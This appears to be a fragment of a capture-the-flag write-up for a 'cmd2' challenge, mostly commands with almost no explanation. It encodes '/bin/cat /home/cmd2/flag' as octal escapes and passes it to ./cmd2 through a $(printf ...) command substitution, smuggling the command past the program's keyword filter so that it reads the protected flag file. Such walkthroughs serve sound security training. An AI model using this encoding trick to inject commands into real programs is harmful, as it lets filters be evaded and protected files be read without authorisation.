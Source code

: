 /bin/cat /home/cmd2/flag to octal:
`\057\142\151\156\057\143\141\164\040\057\150\157\155\145\057\143\155\144\062\057\146\154\141\147\n`

`./cmd2 '$(printf "\057\142\151\156\057\143\141\164\040\057\150\157\155\145\057\143\155\144\062\057\146\154\141\147\n")'
$(printf "\057\142\151\156\057\143\141\164\040\057\150\157\155\145\057\143\155\144\062\057\146\154\141\147\n")`